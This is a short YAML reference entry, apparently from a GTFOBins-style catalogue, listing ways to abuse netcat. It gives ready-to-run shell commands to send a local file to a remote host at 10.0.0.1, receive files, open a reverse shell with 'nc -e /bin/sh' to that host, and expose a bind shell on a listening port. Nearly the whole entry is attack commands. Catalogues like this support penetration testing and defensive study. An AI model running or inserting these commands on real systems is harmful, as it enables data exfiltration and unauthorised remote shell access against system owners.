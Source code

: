 ```yaml
---
functions:
  upload:
    - description: |
        Send a file to a TCP port. Run `nc -l -p 12345 > "where_to_save"` to collect the file on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=12345
        LFILE=file_to_send
        nc $RHOST $RPORT < "$LFILE"
  download:
    - description: Fetch remote file from a remote TCP port. Run `nc 10.0.0.1 12345 < "file_to_send"` to send the file from the other end.
      code: |-
        LPORT=12345
        LFILE=where_to_save
        nc -l -p $LPORT > "$LFILE"
  reverse-shell:
    - description: Run `nc -l -p 12345` to receive the shell on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=12345
        nc -e /bin/sh $RHOST $RPORT
  bind-shell:
    - description: Run `nc 10.0.0.1 12345` to connect to the shell on the other end.
      code: |
        LPORT=12345
        nc -l -p $LPORT -e /bin/sh
---
```

